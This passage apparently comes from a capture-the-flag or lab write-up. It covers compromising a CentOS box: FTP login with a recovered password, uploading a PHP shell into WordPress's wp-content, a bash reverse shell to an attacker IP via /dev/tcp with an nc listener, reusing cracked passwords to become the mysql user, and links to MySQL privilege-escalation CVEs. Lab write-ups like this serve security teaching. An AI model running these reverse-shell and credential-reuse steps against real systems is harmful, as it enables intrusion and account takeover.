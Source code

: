 Using `bigsbee:F54gB76&KxpF%3`

```
cd ok, cwd=/var/ftp/pub
lftp bigsbee@172.30.0.2:~> ls -al
drwxrwxrwx    1 0        0            4096 Oct 30  2018 .
drwxr-xr-x    1 0        0            4096 Mar 21 23:02 ..
```

We're able to traverse the filesystem and find ourselves a writeable directory (the Wordpress `wp-content` directory) where we can upload a shell for RCE:

```
lftp bigsbee@172.30.0.2:~> cd /var/www/html/wp-content
cd ok, cwd=/var/www/html/wp-content
lftp bigsbee@172.30.0.2:/var/www/html/wp-content> put hax.php
799 bytes transferred in 2 seconds (532 B/s)
```

We'll use the following for a reverse shell:

```bash
echo 'F54gB76&KxpF%3' | su - bigsbee -c "nohup bash -i >& /dev/tcp/172.30.0.12/1337 0>&1 &"
```

And listen locally for the incoming connection:

```bash
nc -lp 1337
```

```
bash: no job control in this shell
[bigsbee@917d912f6467 ~]$ export TERM=xterm
[bigsbee@917d912f6467 ~]$ id
uid=1000(bigsbee) gid=1000(bigsbee) groups=1000(bigsbee)
```

The box is running Centos 7.7.

## MySQL 5.5.51

To re-cap, we've collected 3 passwords so far:

- `bigsbee:F54gB76&KxpF%3`
- `admin:jF5t^3dW3dxh!`
- `wordpressuser:G53DF76gd21$`

And apparently the system user `mysql` has a password set (as seen from `/etc/shadow`), and password `G53DF76gd21$` works on that:

```
[bigsbee@917d912f6467 ~]$ echo 'G53DF76gd21$' | su - mysql -c "id"
Password: uid=999(mysql) gid=998(mysql) groups=998(mysql)
```

In addition, MySQL version `5.5.51` is vulnerable to some exploits, read about them here:

- [MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662](http://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html)
- [MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663](http://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)
- [MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664](http://legalhackers.com/advisories/MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664-5617-Exploit.html)
